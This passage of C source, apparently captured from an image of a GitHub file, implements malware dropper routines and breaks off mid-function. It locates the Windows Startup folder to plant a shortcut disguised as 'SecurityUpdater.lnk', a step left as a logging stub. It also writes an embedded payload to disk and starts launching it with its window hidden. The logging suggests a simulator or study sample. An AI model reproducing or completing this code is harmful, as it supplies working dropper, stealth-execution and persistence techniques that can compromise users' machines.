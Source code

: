 ```c
    
    // Get the Startup folder path
    if (SHGetFolderPathA(NULL, CSIDL_STARTUP, NULL, 0, startupFolder) != S_OK) {
        log_message("ERROR", "Failed to get Startup folder path", TRUE);
        return FALSE;
    }
    
    // Create the new path
    sprintf(newPath, "%s\\SecurityUpdater.lnk", startupFolder);
    
    // In a real implementation, this would create a shortcut using IShellLink
    sprintf(message, "Would create shortcut at: %s pointing to: %s", newPath, originalPath);
    log_message("PERSISTENCE", message, TRUE);
    
    return TRUE;
}

// ==========================================
// PAYLOAD HANDLING
// ==========================================

// Drop file to disk with proper error handling
BOOL drop_file(const char* path, const BYTE* data, DWORD size) {
    HANDLE hFile;
    DWORD written;
    BOOL result = FALSE;
    char message[512];
    
    // Create the file
    hFile = CreateFileA(path, GENERIC_WRITE, 0, NULL, CREATE_ALWAYS, 
                       FILE_ATTRIBUTE_NORMAL, NULL);
    
    if (hFile == INVALID_HANDLE_VALUE) {
        sprintf(message, "Failed to create file: %s. Error: %ld", path, GetLastError());
        log_message("ERROR", message, TRUE);
        return FALSE;
    }
    
    // Write the data
    if (!WriteFile(hFile, data, size, &written, NULL) || written != size) {
        sprintf(message, "Failed to write file data. Error: %ld", GetLastError());
        log_message("ERROR", message, TRUE);
    } else {
        sprintf(message, "Successfully dropped file: %s (%ld bytes)", path, written);
        log_message("PAYLOAD", message, TRUE);
        result = TRUE;
    }
    
    CloseHandle(hFile);
    return result;
}

// Execute a dropped file
BOOL execute_dropped_file(const char* path) {
    STARTUPINFOA si = { sizeof(si) };
    PROCESS_INFORMATION pi = {0};
    BOOL result;
    char message[512];
    
    si.dwFlags = STARTF_USESHOWWINDOW;
    si.wShowWindow = SW_HIDE;
    
    // Create process
```